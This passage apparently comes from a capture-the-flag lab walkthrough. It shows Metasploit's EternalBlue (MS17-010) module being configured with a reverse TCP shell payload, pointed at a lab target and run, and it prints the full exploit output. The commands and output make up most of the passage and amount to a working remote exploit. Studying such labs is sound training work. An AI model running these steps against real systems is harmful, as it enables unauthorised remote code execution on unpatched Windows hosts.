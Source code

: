     Module options (exploit/windows/smb/ms17_010_eternalblue):

    Name           Current Setting  Required  Description
    ----           ---------------  --------  -----------
    RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT          445              yes       The target port (TCP)
    SMBDomain      .                no        (Optional) The Windows domain to use for authentication
    SMBPass                         no        (Optional) The password for the specified username
    SMBUser                         no        (Optional) The username to authenticate as
    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
    ...
    ```

- Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:<br>`set payload windows/x64/shell/reverse_tcp`.
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
    payload => windows/x64/shell/reverse_tcp
    ```

- With that done, run the exploit!
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.135.235
    RHOSTS => 10.10.135.235
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.11.25.205
    lhost => 10.11.25.205
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
    ```
- Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

    [*] Started reverse TCP handler on 10.11.25.205:4444 
    [*] 10.10.135.235:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.135.235:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.135.235:445     - Scanned 1 of 1 hosts (100% complete)
    [*] 10.10.135.235:445 - Connecting to target for exploitation.
    [+] 10.10.135.235:445 - Connection established for exploitation.
    [+] 10.10.135.235:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.135.235:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.135.235:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.135.235:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.135.235:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.135.235:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.135.235:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.135.235:445 - Sending all but last fragment of exploit packet
    [*] 10.10.135.235:445 - Starting non-paged pool grooming
    [+] 10.10.135.235:445 - Sending SMBv2 buffers
    [+] 10.10.135.235:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.135.235:445 - Sending final SMBv2 buffers.
    [*] 10.10.135.235:445 - Sending last fragment of exploit packet!
    [*] 10.10.135.235:445 - Receiving response from exploit packet
    [+] 10.10.135.235:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.135.235:445 - Sending egg to corrupted connection.
    [*] 10.10.135.235:445 - Triggering free of corrupted buffer.
    [*] Sending stage (336 bytes) to 10.10.135.235